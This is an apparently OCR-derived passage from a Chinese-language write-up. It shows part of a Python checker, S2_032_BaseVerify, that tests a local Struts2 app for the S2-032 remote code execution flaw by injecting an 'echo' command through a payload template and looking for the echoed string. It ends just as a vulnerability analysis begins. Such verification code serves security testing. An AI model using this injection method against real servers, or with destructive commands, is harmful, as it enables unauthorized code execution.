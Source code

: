 ```python
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_req = requests.get(self.url + self.payload.format(cmd = 'echo ' + self.capta), headers = self.headers)
            if self.capta in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_032 = S2_032_BaseVerify('http://localhost:8080/s2_032_war_exploded/index.action')
    print(S2_032.run())
```

## 漏洞分析

首先Struts2的运行流程是
